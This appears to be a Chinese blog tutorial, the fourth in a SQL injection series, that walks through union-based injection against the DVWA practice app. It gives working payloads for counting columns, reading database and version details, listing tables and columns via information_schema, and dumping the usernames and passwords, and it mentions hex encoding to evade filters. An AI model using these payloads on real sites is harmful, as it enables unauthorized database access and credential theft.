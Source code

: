 ```yaml
---
layout: post
title: "SQL注入（四）"
category: SQL注入
tags: SQL注入 渗透测试
---
```


一天不更就觉得是对生命的浪费啊魂淡(,,･∀･)ﾉ゛

## 使用order by查询字段

`order by` 语句会对查询结果进行排列，可以借此判断列数。`+--+`可以对后面内容进行注释，便利构造语句


## 联合查询获取当前数据库、用户、版本信息

可以构造`union select`语句，来查询正在使用中的用户`user()`、数据库`database()`、数据库版本`version()`、服务器操作系统等信息`@@version_compile_os`，例如：

{% highlight sql %}
union select user(),database()+--+
{% endhighlight %}

## 查询数据库用户名和密码

前面提到过，在MySQL 5.0及以上版本，`information_schema`存储着所有数据库下的表名和列名信息。

### 查询表名

`information_schema.tables`为数据库名下表名`tables`记录所有数据库名下所有表名信息的表。

{% highlight sql %}
union select 1, group_concat(table_name) from information_schema.tables where table_schema=0x64767741+--+&Submit=Submit
{% endhighlight %}

这条语句表示联合查询满足数据库名为`information_schema`的库中的`tables`这个表，将其所有符合条件的字段，即属于`dvwa`库的表的信息都列出来

其中`0x64767741`为十六进制数，表示数据库名`dvwa`，在我们实际操作时，应当在查询到数据库名之后将其转换为十六进制数填入这个位置，可以借此绕过过滤检测。

### 查询列名

同理`information_schema.columns`是记录数据库下所有列名信息的表

若已知表名`users`，想要查询其下面的列名，则需要用以下语句：

{% highlight sql %}
union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273+--+&Submit=Submit
{% highlight sql %}

其中`0x7573657273`为`users`的十六进制形式

### 查询用户名密码

{% highlight sql %}
union select user,password from users+--+&Submit=Submit
{% endhighlight %}

其中users为上一步查到的表名